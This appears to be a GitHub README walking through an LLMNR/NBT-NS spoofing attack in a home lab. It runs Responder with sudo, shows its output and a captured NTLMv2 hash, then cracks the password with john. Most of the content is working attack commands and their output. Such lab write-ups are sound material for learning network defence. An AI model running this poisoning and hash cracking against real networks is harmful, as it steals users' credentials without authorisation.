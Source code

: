 ## Attack
LLMNR and NBT-NS Spoofing

## Procedure
- Start Capturing the traffic on the interface you are connected with the filter ```ip.addr == <Address of the victim>```.   
- Start responder on interface with sudo privileges.
```bash
f4lc0n@klaw /g/Responder> sudo ./Responder.py -I eno1 -wrf
```
 - The output will be in a similar way.


```bash
.----.-----.-----.-----.-----.-----.--|  |.-----.----.
|   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
|__| |_____|_____|   __|_____|__|__|_____||_____|__|
|__|

NBT-NS, LLMNR & MDNS Responder 2.3

Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CRTL-C


[+] Poisoners:
LLMNR                      [ON]
NBT-NS                     [ON]
DNS/MDNS                   [ON]

[+] Servers:
HTTP server                [ON]
HTTPS server               [ON]
WPAD proxy                 [ON]
SMB server                 [ON]
Kerberos server            [ON]
SQL server                 [ON]
FTP server                 [ON]
IMAP server                [ON]
POP3 server                [ON]
SMTP server                [ON]
DNS server                 [ON]
LDAP server                [ON]

[+] HTTP Options:
Always serving EXE         [OFF]
Serving EXE                [OFF]
Serving HTML               [OFF]
Upstream Proxy             [OFF]

[+] Poisoning Options:
Analyze Mode               [OFF]
Force WPAD auth            [OFF]
Force Basic Auth           [OFF]
Force LM downgrade         [OFF]
Fingerprint hosts          [ON]

[+] Generic Options:
Responder NIC              [eno1]
Responder IP               [192.168.43.178]
Challenge set              [1122334455667788]

[+] Listening for events...
```

- Now start accessing a inaccessible server on the Victim Machine.![](https://github.com/bj1408/LLMNR-Attack/blob/master/images/VictimSS1.png)

- Now we can see that Responder captures this event.
```bash
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 192.168.43.178
[SMB] NTLMv2-SSP Username : win7\f4lc0n
[SMB] NTLMv2-SSP Hash     : f4lc0n::win7:1122334455667788:C70EFFD5915B4121E403760CC5C484CB:0101000000000000A89E44AB2F15D5013D9048CA1088913D0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000100000000200000DA67F4AC3DE52B034E39D510C5B9053CDF0220D4DDD1DA9DC814C2571E50F29F0A0010000000000000000000000000000000000009001C0063006900660073002F006600690065006C00730068006100720065000000000000000000
[SMB] Requested Share     : \\FIELSHARE\IPC$
[*] Skipping previously captured hash for win7\f4lc0n
[SMB] Requested Share     : \\FIELSHARE\IPC$
``` 
- Responder successfully stole the password NTLM hash of the victim machine.
- Now use john for cracking the hash.
```bash
f4lc0n@klaw /g/Responder> john hash.txt
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (f4lc0n)
1g 0:00:00:00 DONE 2/3 (2019-05-28 14:20) 2.439g/s 72214p/s 72214c/s 72214C/s 123456..MATT
Use the "--show" option to display all of the cracked passwords reliably
```
- So the password was successfullly stolen :grin:


PS: The network activity for this attack is captured [Here](./Captures/NBNS.pcapng).
